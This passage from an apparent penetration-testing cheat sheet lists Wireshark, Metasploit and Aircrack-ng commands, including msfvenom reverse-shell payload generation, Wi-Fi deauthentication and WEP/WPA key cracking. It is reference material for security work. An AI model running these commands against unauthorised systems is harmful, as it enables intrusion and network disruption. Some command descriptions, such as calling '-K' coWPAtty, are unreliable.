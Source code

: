 ```
- **Description:** Wireshark is a network protocol analyzer used for network troubleshooting, analysis, and software development.

- **Basic Commands:**
  1. `wireshark` - Open the Wireshark graphical user interface.
  2. `tshark -i <interface> -c <packet_count>` - Capture packets from the command line.
  3. `editcap -c 100 input.pcap output.pcap` - Limit the number of packets in a capture file.

- **Intermediate Commands:**
  1. `wireshark -r input.pcap -Y "http.request.method == POST"` - Display only POST requests.
  2. `tshark -r input.pcap -q -z io,phs` - Display a summary of IO and protocol hierarchy statistics.

- **Advanced Commands:**
  1. `tshark -r input.pcap -T fields -e frame.time -e ip.src -e ip.dst -E separator=, > output.csv` - Export packet details to a CSV file.
  2. `capinfos input.pcap` - Display basic information about a capture file.

### 6. Metasploit Framework

- **Description:** Metasploit Framework is an open-source penetration testing framework for developing, testing, and executing exploit code.

- **Basic Commands:**
  1. `msfconsole` - Open the Metasploit console.
  2. `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe > shell.exe` - Generate a reverse shell payload.

- **Intermediate Commands:**
  1. `msfconsole -x "use auxiliary/scanner/http/http_version; set RHOSTS <target>; run"` - Run a specific Metasploit module.
  2. `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f elf > shell.elf` - Generate a Linux reverse shell payload.

- **Advanced Commands:**
  1. `msfconsole -r script.rc` - Run a script with multiple commands.
  2. `msfdb init` - Initialize the Metasploit database.
  3. `msfvenom --list payloads` - List available payloads.

### 7. Aircrack-ng

- **Description:** Aircrack-ng is a suite of tools for assessing and cracking Wi-Fi networks.

- **Basic Commands:**
  1. `airmon-ng start wlan0` - Start monitor mode.
  2. `airodump-ng --channel 6 --bssid 00:11:22:33:44:55 -w output ath0` - Capture WPA handshake.
  3. `aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 00:11:22:33:44:56 ath0` - Deauthenticate a client.

- **Intermediate Commands:**
  1. `aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 capture_file.cap` - Crack WEP key.
  2. `aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 -e target_ssid capture_file.cap` - Crack WPA key.
  3. `airmon-ng stop wlan0` - Stop monitor mode.

- **Advanced Commands:**
  1. `aircrack-ng -K -b 00:11:22:33:44:55 -e target_ssid capture_file.cap` - Use coWPAtty to crack WPA key.
  2. `airdecap-ng -b 00:11:22:33:44:55 -e target_ssid -p passphrase capture_file.cap` - Decrypt WEP or WPA traffic.
  3. `airtun-ng -s <target> -a 00:11:22:33:44:55` - Create a virtual tunnel interface.

### 8. Kismet

```
